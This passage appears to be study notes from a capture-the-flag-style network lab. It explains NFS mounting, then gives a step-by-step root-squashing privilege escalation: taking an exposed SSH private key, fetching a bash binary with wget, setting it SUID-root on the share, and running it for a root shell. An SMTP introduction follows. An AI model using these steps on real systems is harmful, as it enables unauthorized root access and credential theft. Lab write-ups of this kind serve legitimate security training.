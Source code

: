 You also need a "*mounting point*", a directory where the share can be accessed. You can create this directory anywhere on the system, for example: (the tmp directory will be deleted when the machine is turned off)
```
mkdir /tmp/mount
```

After that you can mount the NFS share with:
```
sudo mount -t nfs IP-address:share /path/to/mounting-point/ -nolock
```

To view the visible share of a target machine use:
```
/usr/sbin/showmount -e IP-address
```

### Exploiting NFS
We can try to escalate our priviliges by exploiting a misconfiguration of "Root Squashing". If turned on it prevents users who are connected to gain root access. However if turned off we can create a [SUID bit file](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) and gain root access. We basically want to upload a bash executable to the share and execute it it to gain a root shell. 
The steps are:
1. NFS access
2. Gain low privilege shell
3. Upload Bash Executable to the NFS share
4. Login through SSH
5. Execute SUID Bit Bash Executable
6. Root access

### Exercise
1. We first do a port scan and find that port 2049 is open.
2. Using `/usr/sbin/showmount -e ip-address` we list the NFS share and find the share `/home`
3.  We create a mounting point and mount the `/home` share and find that there is a folder called "cappucino" inside.
4. looking through the files inside the folder, we find a `.ssh` folder, which contains a `id_rsa` key file.
5. we download and move the key into our .ssh folder; using `chmod 600 keyName` we protect the key from any changes.
6. We use the key to connect to a shell on the server with:
    `ssh -i /root/id_rsa cappucino@10.10.208.50`
7. We have a low privilege shell so we will exploid "root squashing"
8. We will download a "Ubuntu Server 18.04" [bash executable](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) with:  `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`
9. We move the bash executable to the NFS share and to set that the owner is a root user we use `sudo chown root bash`
10. To add the SUID bit we use `sudo chmod +s bash` and `sudo chmod +x bash`
11. We use the terminal with connected with SSH and enter `./bash -p`; `-p` persists the permissions so it can run with SUID. 
    If everything was right we now have a shell with root privileges 
12. We change the directory with `cd /root` and find the flag
## SMTP
**What is SMTP**
*Simple Mail Transfer Protocol (SMTP)* is used to handle the sending of emails in combination with *POP*/*IMAP*.  
A *SMTP* server offers three basics functions:
- verify who is sending emails through the SMTP server
- sending outgoing mail
- sending mails back to the sender if outgoing mail can not be delivered
